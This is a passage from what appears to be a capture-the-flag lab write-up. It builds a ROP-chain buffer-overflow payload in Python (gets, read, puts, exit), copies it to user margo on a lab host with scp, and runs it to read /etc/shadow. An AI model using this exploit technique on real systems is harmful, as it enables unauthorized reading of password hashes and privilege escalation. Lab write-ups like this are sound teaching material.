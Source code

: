 ```python
payload += p64(ret)

# get(ops) - this is basically redundant, the
# only purpose is to make sure rdx contains a
# large enough integer
payload += p64(pop_rdi_ret)
payload += p64(ops)
payload += p64(gets)
payload += p64(ret)

# read(4, buf, x) - the file descriptor from the
# previous fopen is almost certainly to result
# in file descriptor being 4
payload += p64(pop_rsi_pop_ret)
payload += p64(buf)
payload += p64(skip)
payload += p64(pop_rdi_ret)
payload += p64(4)
payload += p64(read)
payload += p64(ret)

# puts(buf) - display buf in stdout
payload += p64(pop_rdi_ret)
payload += p64(buf)
payload += p64(puts)
payload += p64(ret)

# exit(0)
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(exit)

# write payload to file
f = open('payload', 'wb')
f.write(payload)
f.close
```

Let's give it a shot. Generate the payload and send it to `margo` using `scp`.

```
# python exploit.py
# scp payload margo@10.10.10.139:/tmp
```

Log in to `margo`'s account via SSH and navigate to `/tmp` (that's where our payload is) and let the magic begins. We'll see if we can read `/etc/shadow`.

<a class="image-popup">